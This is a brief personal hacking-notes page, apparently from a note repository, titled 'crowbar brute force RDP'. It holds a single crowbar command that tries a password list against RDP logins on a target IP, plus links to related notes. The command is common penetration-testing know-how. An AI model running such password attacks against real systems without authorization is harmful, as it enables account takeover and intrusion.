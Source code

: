 # crowbar brute force RDP
```bash
crowbar -b rdp -n 1 -s $IP/32 -u username -C ./passwords
```

# Related
- [20221003150780](/zet/20221003150780/README.md) crowbar
- [20221003150778](/zet/20221003150778/README.md) crowbar brute force RDP active directory domain joined
- ~/kb/hacking/commands/crowbar.md

Tags:
    #assorted #command #hacking #crowbar
